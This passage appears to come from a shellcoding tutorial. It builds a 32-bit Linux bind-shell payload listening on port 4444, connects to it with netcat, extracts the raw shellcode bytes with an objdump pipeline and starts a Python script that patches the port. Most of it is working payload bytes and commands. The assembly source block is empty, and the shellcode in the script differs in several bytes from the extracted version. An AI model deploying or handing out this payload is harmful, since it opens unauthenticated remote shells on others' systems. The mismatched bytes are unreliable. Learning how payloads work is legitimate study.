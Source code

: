 ```nasm
```

Let's compile and execute it: 
```console
kali@kali:/tmp/$ nasm -f elf32 -o bind_shell.o bind_shell.nasm
kali@kali:/tmp/$ ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
kali@kali:/tmp/$ ./bind_shell
```

We can check if the port 4444 is open using netstat:
```console
kali@kali:/tmp$ netstat -antp | grep 4444
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      1659/./bind_shell 
```

We can now connect to this new port using for example netcat and get our shell:
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
pwd
/tmp
```

# 2) Second step: make the port configuration easy

Before explaining, the python script used for this task, we need to retrieve the hexadecimal format of our shellcode. But instead of a simple '\x' before our hexadecimal value, we will need two of them '\\\x'. 

Why ? Because our python script won't interpret our shellcode without this part.

We can easily do that by using the following objdump command:
```console
kali@kali:/tmp$ objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x50\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x89\\xe1\\x89\\xea\\x29\\xe2\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc6\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\xb0\\x0b\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"
```

We can now add this shellcode to our python script. This script is pretty simple, it parses the 'shellcode' variable content, look for the '\\x11\\x5c' (which is 4444 in reverse hexadecimal) pattern and replace it by the port value asked by the user.

Here is the code:
```python
#!/usr/bin/python3

import sys
import socket

# The Shellcode used (port: 4444)
shellcode = '\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x50\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x89\\xe1\\x89\\xea\\x29\\xe2\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\xcd\\x80\\x31\\xff\\x89\\xc7\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\xb0\\x0b\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80'
```